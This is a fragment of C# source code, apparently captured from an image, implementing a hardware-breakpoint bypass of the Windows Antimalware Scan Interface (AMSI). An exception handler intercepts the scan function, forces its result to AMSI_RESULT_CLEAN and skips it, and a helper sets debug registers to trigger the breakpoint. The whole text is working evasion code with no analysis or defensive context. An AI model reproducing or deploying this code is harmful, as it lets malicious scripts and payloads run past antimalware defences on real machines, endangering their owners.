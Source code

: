 ```cs
        }
        
        public static long Handler(IntPtr exceptions)
        {
            WinAPI.EXCEPTION_POINTERS ep = new WinAPI.EXCEPTION_POINTERS();
            ep = (WinAPI.EXCEPTION_POINTERS)Marshal.PtrToStructure(exceptions, typeof(WinAPI.EXCEPTION_POINTERS));

            WinAPI.EXCEPTION_RECORD ExceptionRecord = new WinAPI.EXCEPTION_RECORD();
            ExceptionRecord = (WinAPI.EXCEPTION_RECORD)Marshal.PtrToStructure(ep.pExceptionRecord, typeof(WinAPI.EXCEPTION_RECORD));

            WinAPI.CONTEXT64 ContextRecord = new WinAPI.CONTEXT64();
            ContextRecord = (WinAPI.CONTEXT64)Marshal.PtrToStructure(ep.pContextRecord, typeof(WinAPI.CONTEXT64));

            if (ExceptionRecord.ExceptionCode == WinAPI.EXCEPTION_SINGLE_STEP && ExceptionRecord.ExceptionAddress == pABuF)
            {
                ulong ReturnAddress = (ulong)Marshal.ReadInt64((IntPtr)ContextRecord.Rsp);

                IntPtr ScanResult = Marshal.ReadIntPtr((IntPtr)(ContextRecord.Rsp + (6 * 8))); // 5th arg, swap it to clean

                Marshal.WriteInt32(ScanResult, 0, WinAPI.AMSI_RESULT_CLEAN);

                ContextRecord.Rip = ReturnAddress;
                ContextRecord.Rsp += 8;
                ContextRecord.Rax = 0; // S_OK
                
                Marshal.StructureToPtr(ContextRecord, ep.pContextRecord, true); //Paste our altered ctx back in TO THE RIGHT STRUCT
                return WinAPI.EXCEPTION_CONTINUE_EXECUTION;
            }
            else
            {
                return WinAPI.EXCEPTION_CONTINUE_SEARCH;
            }

        }

        public static void EnableBreakpoint(WinAPI.CONTEXT64 ctx, IntPtr address, int index)
        {
            switch (index)
            {
                case 0:
                    ctx.Dr0 = (ulong)address.ToInt64();
                    break;
                case 1:
                    ctx.Dr1 = (ulong)address.ToInt64();
                    break;
                case 2:
                    ctx.Dr2 = (ulong)address.ToInt64();
                    break;
                case 3:
                    ctx.Dr3 = (ulong)address.ToInt64();
                    break;
            }

            ctx.Dr7 = SetBits(ctx.Dr7, 16, 16, 0);
            ctx.Dr7 = SetBits(ctx.Dr7, (index * 2), 1, 1);
            ctx.Dr6 = 0;

```